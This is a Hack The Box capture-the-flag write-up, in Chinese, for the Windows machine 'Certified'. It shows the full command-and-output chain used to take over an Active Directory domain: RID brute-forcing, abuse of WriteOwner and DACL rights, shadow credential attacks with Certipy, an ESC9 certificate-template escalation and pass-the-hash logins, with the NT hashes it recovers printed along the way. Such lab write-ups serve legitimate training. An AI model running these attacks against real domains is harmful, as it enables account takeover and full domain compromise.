




###### tags: `Hack the box` `HTB` `Medium` `Windows`

# Certified
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.231.186 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.231.186:53
Open 10.129.231.186:88
Open 10.129.231.186:135
Open 10.129.231.186:139
Open 10.129.231.186:389
Open 10.129.231.186:445
Open 10.129.231.186:464
Open 10.129.231.186:593
Open 10.129.231.186:636
Open 10.129.231.186:3268
Open 10.129.231.186:3269
Open 10.129.231.186:5985
Open 10.129.231.186:49666
Open 10.129.231.186:49693
Open 10.129.231.186:49697
Open 10.129.231.186:49747
Open 10.129.231.186:49724
Open 10.129.231.186:49694
Open 10.129.231.186:49671

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec? syn-ack ttl 127
135/tcp   open  msrpc?        syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49693/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49724/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49747/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
SE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:53
Completed NSE at 00:53, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:53
Completed NSE at 00:53, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:53
Completed NSE at 00:53, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.70 seconds
           Raw packets sent: 19 (836B) | Rcvd: 19 (836B)
```

利用`nxc`可以查看user
```
┌──(kali㉿kali)-[~/htb]
└─$ nxc smb 10.129.231.186 -u judith.mader -p 'judith09' --rid-brute | grep SidTypeUser
SMB                      10.129.231.186  445    DC01             500: CERTIFIED\Administrator (SidTypeUser)
SMB                      10.129.231.186  445    DC01             501: CERTIFIED\Guest (SidTypeUser)
SMB                      10.129.231.186  445    DC01             502: CERTIFIED\krbtgt (SidTypeUser)
SMB                      10.129.231.186  445    DC01             1000: CERTIFIED\DC01$ (SidTypeUser)
SMB                      10.129.231.186  445    DC01             1103: CERTIFIED\judith.mader (SidTypeUser)
SMB                      10.129.231.186  445    DC01             1105: CERTIFIED\management_svc (SidTypeUser)
SMB                      10.129.231.186  445    DC01             1106: CERTIFIED\ca_operator (SidTypeUser)
SMB                      10.129.231.186  445    DC01             1601: CERTIFIED\alexander.huges (SidTypeUser)
SMB                      10.129.231.186  445    DC01             1602: CERTIFIED\harry.wilson (SidTypeUser)
SMB                      10.129.231.186  445    DC01             1603: CERTIFIED\gregory.cameron (SidTypeUser)
```

題目有給一組帳密`judith.mader / judith09`，列一下`share`資料夾
```
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb -u judith.mader -p 'judith09' --shares 10.129.231.186
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.231.186  445    DC01             [+] Enumerated shares
SMB         10.129.231.186  445    DC01             Share           Permissions     Remark
SMB         10.129.231.186  445    DC01             -----           -----------     ------
SMB         10.129.231.186  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.231.186  445    DC01             C$                              Default share
SMB         10.129.231.186  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.231.186  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.231.186  445    DC01             SYSVOL          READ            Logon server share 
```

利用`bloodhound`
```
┌──(kali㉿kali)-[~/htb]
└─$ bloodhound-python -c All -u 'judith.mader' -p 'judith09' -d certified.htb -ns 10.129.231.186 --zip

┌──(kali㉿kali)-[~/htb]
└─$ sudo neo4j start 

┌──(kali㉿kali)-[~/htb]
└─$ bloodhound
```



`judith.mader`是`management`這個group的成員且擁有`WriteOwner`權限

查看此網站[Exploitation Phase II – User Owns WriteOwner Permission on a Group](https://www.hackingarticles.in/abusing-ad-dacl-writeowner/)並照著做

先改`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.231.186  certified.htb
```

```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-owneredit -action write -new-owner 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.129.231.186
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!

┌──(kali㉿kali)-[~/htb]
└─$ impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.129.231.186
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250208-014604.bak
[*] DACL modified successfully!
```

確認更改`acl`之後把`judith.mader`加進`MANAGEMENT`裡面
```
┌──(kali㉿kali)-[~/htb]
└─$ bloodyAD --host 10.129.231.186 -d "certified.htb" -u "judith.mader" -p "judith09" add groupMember "MANAGEMENT" "judith.mader"
[+] judith.mader added to MANAGEMENT
```



接著可以看到`management`的`group`對`management_svc`有`GenericWrite`，可以參考`help`裡面有講到`shadow credential attack` 



利用[Certipy](https://github.com/ly4k/Certipy?tab=readme-ov-file#domain-escalation)

要調整時間
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo ntpdate 10.129.231.186

┌──(kali㉿kali)-[~/htb]
└─$ certipy-ad shadow auto -u judith.mader@certified.htb -p 'judith09' -dc-ip 10.129.231.186 -target DC01.certified.htb -account management_svc 

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'b86690eb-4f3b-ba66-3aaf-85913d72ba5e'
[*] Adding Key Credential with device ID 'b86690eb-4f3b-ba66-3aaf-85913d72ba5e' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID 'b86690eb-4f3b-ba66-3aaf-85913d72ba5e' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

得`NT hash a091c1832bcdd4677c28b5a6a1295584`後利用`evil-winrm`登入，在`C:\Users\management_svc\Desktop`得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.231.186 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

*Evil-WinRM* PS C:\Users\management_svc\Desktop> type user.txt
3d04d1fe50be7a68b26cc5d784fa7a2a
```

再來可以再看到`management_svc`對`ca_operator`有`GenericAll`的權限，感覺可以再一次`shadow credential attack`



```
┌──(kali㉿kali)-[~/htb]
└─$ certipy-ad shadow auto -u management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.231.186 -target DC01.certified.htb -account ca_operator     
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c583c47f-8b23-2a32-7de8-b20764ec5654'
[*] Adding Key Credential with device ID 'c583c47f-8b23-2a32-7de8-b20764ec5654' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'c583c47f-8b23-2a32-7de8-b20764ec5654' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

找漏洞
```
┌──(kali㉿kali)-[~/htb]
└─$ export KRB5CCNAME=./ca_operator.ccache           

┌──(kali㉿kali)-[~/htb]
└─$ certipy find -k -debug -target DC01.certified.htb -dc-ip 10.129.231.186 -vulnerable -stdout 

Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16777216
                                          65536
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

參考`github`裡面[Certipy 4.0: ESC9 & ESC10, BloodHound GUI, New Authentication and Request Methods — and more!](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

```
┌──(kali㉿kali)-[~/htb]
└─$ certipy account update -u management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'

┌──(kali㉿kali)-[~/htb]
└─$ certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug

┌──(kali㉿kali)-[~/htb]
└─$ certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.142.2'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.129.231.186
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.231.186[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.231.186[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

┌──(kali㉿kali)-[~/htb]
└─$ certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb

┌──(kali㉿kali)-[~/htb]
└─$ certipy auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

得hash之後可以登入了，在`C:\Users\Administrator\Desktop`可得`root.txt`
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.231.186 -u administrator -H 0d5b49608bbce1751f708748f67e2d34 

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a70c1e7088a899cd5cb4c5150acbd54d
```
